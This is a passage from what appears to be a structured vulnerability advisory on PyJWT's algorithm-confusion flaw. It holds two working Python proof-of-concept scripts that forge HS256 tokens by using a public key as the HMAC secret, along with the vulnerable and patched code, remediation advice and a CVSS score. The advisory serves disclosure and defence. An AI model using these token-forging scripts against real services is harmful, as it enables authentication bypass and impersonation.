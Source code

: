 ```
      "```python\nimport jwt\nfrom cryptography.hazmat.primitives import serialization\nfrom cryptography.hazmat.primitives.asymmetric import ed25519\n\n# Generate ed25519 private key\nprivate_key = ed25519.Ed25519PrivateKey.generate()\n\n# Get private key bytes as they would be stored in a file\npriv_key_bytes =\nprivate_key.private_bytes(encoding=serialization.Encoding.PEM,format=serialization.PrivateFormat.PKCS8,\nencryption_algorithm=serialization.NoEncryption())\n\n# Get public key bytes as they would be stored in a file\npub_key_bytes =\nprivate_key.public_key().public_bytes(encoding=serialization.Encoding.OpenSSH,format=serialization.PublicFormat.OpenSSH)\n\n# Making a good jwt token that should work by signing it with the\nprivate key\nencoded_good = jwt.encode({\"test\": 1234}, priv_key_bytes, algorithm=\"EdDSA\")\n\n# Using HMAC with the public key to trick the receiver to think that the\npublic key is a HMAC secret\nencoded_bad = jwt.encode({\"test\": 1234}, pub_key_bytes, algorithm=\"HS256\")\n\n# Both of the jwt tokens are validated as valid\ndecoded_good = jwt.decode(encoded_good, pub_key_bytes,\nalgorithms=jwt.algorithms.get_default_algorithms())\ndecoded_bad = jwt.decode(encoded_bad, pub_key_bytes,\nalgorithms=jwt.algorithms.get_default_algorithms())\n\nif decoded_good == decoded_bad:\n  print(\"POC Successfull\")\n```",
      "```python\nimport jwt\n\n#openssl ecparam -genkey -name prime256v1 -noout -out ec256-key-priv.pem\n#openssl ec -in ec256-key-priv.pem -pubout > ec256-key-pub.pem\n#ssh-keygen -y -f ec256-key-priv.pem > ec256-key-ssh.pub\n\npriv_key_bytes = b\"\"\"-----BEGIN EC PRIVATE KEY-----\nMHcCAQEEIOWc7RbaNswMtNtc+n6WZDlUblMr2FBPo79fcGXsJlGQoAoGCCqGSM49\nAwEHoUQDQgAElcy2RSSSgn2RA/xCGko79N+7FwoLZr3Z0ij/ENjow2XpUDwwKEKk\nAk3TDXC9U8nipMlGcY7sDpXp2XyhHEM+Rw==\n-----END EC PRIVATE KEY-----\"\"\"\n\npub_key_bytes = b\"\"\"-----BEGIN PUBLIC KEY-----\nMFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAElcy2RSSSgn2RA/xCGko79N+7FwoL\nZr3Z0ij/ENjow2XpUDwwKEKkAk3TDXC9U8nipMlGcY7sDpXp2XyhHEM+Rw==\n-----END PUBLIC KEY-----\"\"\"\n\nssh_key_bytes = b\"\"\"ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXMtkUkkoJ9kQP8QhpKO/TfuxcKC2a92dIo/xDY6MNl6VA8MChCpAJN0w1wvVPJ4qTJRnGO7A6V6dl8oRxDPkc=\"\"\"\n\n# Making a good jwt token that should work by signing it with the private key\nencoded_good = jwt.encode({\"test\": 1234}, priv_key_bytes, algorithm=\"ES256\")\n\n# Using HMAC with the ssh public key to trick the receiver to think that the public key is a HMAC secret\nencoded_bad = jwt.encode({\"test\": 1234}, ssh_key_bytes, algorithm=\"HS256\")\n\n# Both of the jwt tokens are validated as valid\ndecoded_good = jwt.decode(encoded_good, ssh_key_bytes, algorithms=jwt.algorithms.get_default_algorithms())\ndecoded_bad = jwt.decode(encoded_bad, ssh_key_bytes, algorithms=jwt.algorithms.get_default_algorithms())\n\nif decoded_good == decoded_bad:\n    print(\"POC Successfull\")\nelse:\n    print(\"POC Failed\")\n```"
    ],
    "affected_code": "The vulnerability is in how the `prepare_key` function within the `OKPAlgorithm` class in `jwt/algorithms.py` handles key formats. It incorrectly loads public keys from PEM/OpenSSH formats and allows them to be used with HMAC algorithms due to insufficient type checking. The relevant part of the code is:\n```python\n        if isinstance(\n            key,\n            (Ed25519PrivateKey, Ed25519PublicKey, Ed448PrivateKey, Ed448PublicKey),\n        ):\n            return key\n\n        if isinstance(key, (bytes, str)):\n            if isinstance(key, str):\n                key = key.encode(\"utf-8\")\n            str_key = key.decode(\"utf-8\")\n\n            if \"-----BEGIN PUBLIC\" in str_key:\n                return load_pem_public_key(key)\n            if \"-----BEGIN PRIVATE\" in str_key:\n                return load_pem_private_key(key, password=None)\n            if str_key[0:4] == \"ssh-\":\n                return load_ssh_public_key(key)\n```",
    "patched_code": "The fix involves adding an explicit check to prevent public keys from being used with HMAC algorithms. It ensures that only symmetric keys (or an empty key for the 'none' algorithm) can be used with HMAC.\nThis is done by modifying the `prepare_key` function in the `HMACAlgorithm` class to check if the key is a PEM or SSH key format and raise an `InvalidKeyError`.\n```python\n    def prepare_key(self, key):\n        key = force_bytes(key)\n\n        if is_pem_format(key) or is_ssh_key(key):\n            raise InvalidKeyError(\n                \"The specified key is an asymmetric key or x509 certificate and\"\n                \" should not be used as an HMAC secret.\"\n            )\n\n        return key\n```"
  },
  "remediation": {
    "patches": "Upgrade to `pyjwt` version 2.4.0 or later.",
    "workarounds": "Always explicitly specify the allowed algorithms when decoding JWTs instead of using `jwt.algorithms.get_default_algorithms()`. For example, if you know the algorithm to be used is 'EdDSA', specify algorithms=['EdDSA'] in the `jwt.decode` function. This will prevent the library from trying other algorithms."
  },
    "cvss": {
        "score": 7.4,
        "vector": "CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:N",
      "metrics": {
        "attack_vector": "Network",
```